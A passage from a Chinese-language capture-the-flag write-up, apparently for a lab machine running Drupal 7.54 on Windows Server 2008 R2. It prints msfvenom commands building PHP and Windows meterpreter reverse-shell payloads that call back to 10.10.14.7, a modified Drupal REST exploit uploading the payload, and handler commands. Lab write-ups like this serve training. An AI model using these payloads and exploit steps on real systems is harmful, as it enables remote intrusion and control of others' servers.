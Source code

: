 | cmd | result |
|---|---|
| whoami | nt authority\iusr|
| systeminfo | Microsoft Windows Server 2008 R2 |
| dir  | C:\inetpub\drupal-7.54 |
| type C:\Users\dimitris\Desktop\user.txt | xxx |
| powershell $PSVersionTable | 无ps |

## 获取metepreter

msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -f raw > payload1.txt

修改php exp
```
$myfile = fopen("payload1.txt", "r") or die("Unable to open file!");

$payload1 = fread($myfile,filesize("payload1.txt"));

$url = 'http://10.10.10.9/';

$endpoint_path = '/rest';

$endpoint = 'rest_endpoint';



$file = [

    'filename' => 'whale1.php',

    'data' => $payload1

];
```

handler -H 10.10.14.7 -P 1234 -p php/meterpreter_reverse_tcp

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-05/4.PNG)

## 提权
参考[该文章](https://whale3070.github.io/training/2019/02/07/x/)进行提权

#### 提权尝试一:
```
msfvenom --platform Windows -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=7788 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload2.exe

handler -H 10.10.14.7 -P 7788 -p windows/x64/meterpreter/reverse_tcp
```
结果：失败
原因：只能通过web执行php类型的metapreter，没有考虑好web不能执行windows二进制（exe）类型payload
